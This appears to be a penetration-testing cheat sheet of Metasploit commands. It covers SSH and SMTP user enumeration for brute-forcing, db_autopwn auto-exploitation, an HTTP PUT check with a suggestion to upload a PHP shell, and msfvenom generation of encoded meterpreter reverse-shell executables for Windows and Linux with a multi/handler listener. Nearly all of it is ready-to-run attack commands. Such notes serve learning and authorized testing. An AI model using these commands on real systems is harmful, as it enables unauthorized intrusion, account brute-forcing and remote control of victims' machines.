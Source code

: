 ### SSH enumeration
```bash
ssh_login
ssh_enumusers
```
### SMTP
>PORTS :- 25, 465, 587.
```bash
# NB : Dont forget to set the correct port 

search type:auxiliary name:smtp
smtp_version

# username enumeration, use to generate a wordlist and bruteforce all services.
smtp_enum
```
### Autopwn external module
```bash
# check all the services+versionnumber in searchsploit and search command in msf 
searchsploit "Microsoft Windows SMB"

# USING DB_AUTOPWN
# attempts to exploit or provide a list of msf exploits for services on various ports on targets whose information is stored in the db
> load db_autopwn
> db_autopwn -p -t -PI 22

# ANALYZE
# a cmd in msf that provides a list of exploits that are ready and match services+versions running on a target.
> analyze
```
### PUT method check
```bash
use auxiliary/scanner/http/http_put
# set PATH to a dir that allows PUT
# you can set FILEDATA to be content e.g PHPshell oneliner
```
### Client-Side attacks
```bash
# Generating msfvenom payloads
msfvenom --list payloads
msfvenom --list formats
msfvenom --list encoders

msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f exe > /tmp/32bitload.exe

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f elf -o /tmp/reverse32

MULTI HANDLER
use multi/handler
set payload to $APPRORIATE_SHELLCODE
set LHOST


ENCODING PAYLOADS
nb : shikata_ga_nai works on both linux & windows

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -e x86/shikata_ga_nai -f exe 

# increasing encoder iteration, say 10
```